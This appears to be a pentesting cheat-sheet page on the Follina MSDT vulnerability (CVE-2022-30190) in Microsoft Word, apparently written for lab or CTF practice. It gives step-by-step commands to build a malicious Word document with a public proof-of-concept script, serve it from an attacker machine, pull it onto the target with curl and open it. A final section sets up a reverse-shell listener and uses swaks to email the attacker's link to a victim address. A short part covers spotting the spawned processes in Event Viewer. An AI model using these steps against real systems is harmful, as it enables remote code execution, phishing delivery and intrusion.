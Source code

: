 ```yaml
---
title: Microsoft Word Pentesting
description: 
tags:
    - Windows
refs:
date: 2022-11-20
draft: false
---
```


## Follina MSDT (CVE-2022-30190)

Microsoft Support Diagnostic Tool (MSDT) is vulnerable with Follina.

1. **Download the Payload in Local Machine**

    Clone the payload from [msdt-follina](https://github.com/JohnHammond/msdt-follina).

2. **Create the Maldoc in Local Machine**

    ```sh
    # -i: interface name
    python3 follina.py -i eth0
    ```

    Then a new maldoc named “follina.doc” will be created in the current directory.  
    Now you’ve started the web server.

3. **Open Another Web Server in Local Machine**

    Open another terminal  and move to the msdt-follina directory,  then start web server to transfer the maldoc to target machine.

    ```sh
    python3 -m http.server 3456
    ```

4. **Transfer the Maldoc to Target Machine**

    In target Windows machine, open powershell and execute the following command.

    ```sh
    cd ~/Desktop
    curl http://<local-ip>:3456/follina.doc -o follina.docx
    ```

5. **Open the Maldoc**

    In target machine, open the maldoc you transfered.

    ```sh
    .\follina.docx
    ```

6. **Check the Process Explorer of Sysinternals in Target Machine**

    Find interesting processes in the Process Explorer.

7. **Check the Event Viewer in Target Machine to Detect Suspicious Processes**

    1. Go to "View" -> "Use Quick Filter"

    2. A search bar should appear on top of the logs. Choose “Find Event ID” on the right of the search bar, and enter “4688”(it means that “a new process has been created”) in a search bar.

    3. Open the Find (Ctrl+F) and enter “winword”. Then check the contents of results.

    4. Go to Options → Advanced Options

- **Reverse Shell via SMTP**

    If the target uses SMTP, you may be able to reverse shell using it.  
    Start the exploit to wait for reverse connections.

    ```sh
    sudo python3 follina.py -i tun0 -p 80 -r 4444
    ```

    Send e-mail to the target machine via SMTP using [swaks](https://github.com/jetmore/swaks).

    ```sh
    swaks --to victim@vulnerable.com --from test@test --server mail.vulnerable.com --body "http://<local-ip>/"
    ```